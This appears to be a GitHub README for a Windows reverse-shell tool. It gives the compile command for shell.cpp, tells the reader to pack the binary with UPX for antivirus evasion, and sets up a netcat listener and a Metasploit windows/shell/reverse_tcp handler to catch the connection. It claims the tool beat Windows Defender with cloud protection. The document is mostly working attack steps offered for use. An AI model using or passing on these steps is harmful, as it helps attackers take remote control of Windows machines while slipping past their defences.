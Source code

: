 # POC

https://twitter.com/whichbuffer/status/1333889053851340805?s=20

https://www.youtube.com/watch?v=4k0Xkf4PuMs

# Compile it
````
i686-w64-mingw32-g++ shell.cpp -o shell.exe -lws2_32 -lwininet -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc
````
## After Compile the exe file then use UPX (https://upx.github.io/) for the AV Evasion


# Start the netcat Listener
````
 nc -lvnp <port number>
 ````
 
 # Metasploit Handler
 ````
  use exploit/multi/handler
  set PAYLOAD windows/shell/reverse_tcp
  set LHOST <Local IP>
  set LPORT <Local Port>
  exploit -j -z 
  ````
<a href="https://ibb.co/BK4wqJq"><img src="https://i.ibb.co/84zX6w6/Screenshot-from-2020-11-30-12-24-52.png" alt="Screenshot-from-2020-11-30-12-24-52" border="0"></a>

Tested on updated(30.11.2020) Windows 10 device with Windows Defender and Cloud Protection enabled.

